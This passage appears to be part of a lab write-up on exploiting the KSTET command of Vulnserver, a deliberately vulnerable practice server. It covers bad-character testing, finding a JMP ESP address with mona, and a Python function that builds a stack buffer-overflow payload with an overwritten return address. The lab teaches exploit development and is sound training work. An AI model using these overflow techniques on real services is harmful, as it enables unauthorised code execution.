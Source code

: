 ```python
>>> a = b'\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff'
>>> len(a)
256
>>> n = 64
>>> out = [(a[i:i+n]) for i in range(0, len(a), n)] 
>>> out[3]
'\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff'
>>>
```

What's happening here, is we are defining a list of bad chars in the variable "a". We then run a list comprehension to divide the string in to equal lengths of 64 which will make nice and easy to paste it straight into our payload. 

We can then insert and analyse the buffer just like we did for the TRUN command. 

### Exploit

Similar to the TRUN command, we need to do a JMP ESP.  Hop over to immunity and run

```python
 mona jmp -r ESP
```

This should give a list of addresses similar to the ones below:

![image-20200423062800355](/assets/images/vulnserver/KSTET/image-20200423062800355.png)

At this point pick one of the addresses at random and convert it to little endian. In this case Im going to choose 0x625011df (0xdf115062) and pop it into our payload like so:

```python
def make_payload():
    prepend = b"KSTET /.:/"
    pattern = b"A"*66
    eip = b"\xdf\x11\x50\x62"
    buffer_space = 100 - len(pattern) - len(eip)
    payload_struct = pattern + eip + b'C'*buffer_space
    final_payload = prepend + payload_struct
    return final_payload
```
